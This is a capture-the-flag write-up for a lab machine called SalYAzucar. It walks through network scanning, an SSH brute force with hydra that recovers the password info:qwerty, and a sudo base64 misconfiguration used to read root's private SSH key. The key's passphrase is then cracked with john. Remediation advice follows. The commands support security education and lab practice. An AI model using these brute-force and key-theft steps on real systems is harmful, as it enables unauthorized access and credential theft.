






# SalYAzucar - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | HackerLabs |
| **Operating System** | Linux |
| **Difficulty** | Easy |
| **IP Address** | `192.168.86.100` |
| **Date** | May 22, 2024 |

---

## 1. Executive Summary

Exploitation of the SalYAzucar machine began with network enumeration identifying SSH and HTTP services. After performing directory fuzzing and finding no direct web vulnerabilities, a brute-force attack against the SSH service successfully yielded credentials for the user `info`. Privilege escalation was achieved by abusing a `sudo` misconfiguration for the `base64` binary to read the root user's private SSH key. The key's passphrase was subsequently cracked using John the Ripper, allowing full root access via SSH.

---

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning

Initial discovery was performed using `arp-scan` to locate the target on the local network. Once identified, the OS was fingerprinted and ports were scanned.

```bash
sudo arp-scan --localnet -g
whichSystem.py 192.168.86.100

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.86.100 -oG allPorts
extractPorts allPorts
nmap -p22,80 -sCV 192.168.86.100 -oN target
```

**Key Findings:**

| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 9.2p1 |
| 80 | HTTP | Apache httpd 2.4.57 |

### 2.2 Service Enumeration (HTTP)

A directory discovery was performed on the web server using `gobuster`.

```bash
gobuster dir -u http://192.168.86.100/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt
```



The enumeration revealed a directory named `/summary/`. Inside, a subpage was found containing a message suggesting a password change, but no direct exploitation vector was immediately visible on the web interface.



---

## 3. Exploitation (Foothold)

### 3.1 SSH Brute Force

Given the lack of vulnerabilities in the web application, a brute-force attack was launched against the SSH service using common username and password lists.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/xato-net-10-million-passwords.txt ssh://192.168.86.100 -t 64 -I
```

The attack successfully identified valid credentials: `info:qwerty`.



### 3.2 Initial Access

Using the discovered credentials, a session was established via SSH.

```bash
ssh info@192.168.86.100
```



---

## 4. Privilege Escalation

### 4.1 Local Enumeration

Upon gaining access, the user's sudo privileges were checked.

```bash
info@salyazucar:/home/info$ sudo -l
Matching Defaults entries for info on salyazucar:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User info may run the following commands on salyazucar:
    (root) NOPASSWD: /usr/bin/base64
```

The command revealed that the user `info` can execute `/usr/bin/base64` as root without a password.

### 4.2 Privilege Exploitation (GTFOBins - Base64)

As documented in **GTFOBins**, the `base64` binary can be used to read sensitive files by encoding them and then decoding the output. This was used to exfiltrate the root user's private SSH key (`id_rsa`).

```bash
sudo base64 /root/.ssh/id_rsa | base64 -d
```

### 4.3 SSH Key Passphrase Cracking

The exfiltrated key was protected by a passphrase. The hash was extracted and cracked using `john`.

```bash
# On Attacker Machine
nano id_rsa # Paste the exfiltrated key
ssh2john id_rsa > hashRsa
john --wordlist=/usr/share/wordlists/rockyou.txt hashRsa
```

The passphrase was successfully recovered from the `rockyou.txt` wordlist.



### 4.4 Final Escalation

With the cracked passphrase, a root SSH session was established.

```bash
chmod 600 id_rsa
ssh root@192.168.86.100 -i id_rsa
```



---

## 5. Flags & Evidence

info


root


---

## 6. Remediation & Hardening

- **Secure Password Policy:** Implement a strong password policy to prevent successful brute-force attacks against SSH.
- **Principle of Least Privilege:** Remove the `sudo` entry for `/usr/bin/base64`. Standard users should not have the ability to read arbitrary files via privileged binaries.
- **SSH Hardening:** 
    - Disable password authentication for SSH and use only keys.
    - If root SSH access is required, ensure the keys are not readable by other users through binary misconfigurations.
- **Service Monitoring:** Implement Fail2Ban or a similar service to block IP addresses that attempt multiple failed login attempts.

---

Authored by: [Brutotes]  
[⬅️ Back to Home](../../README.md)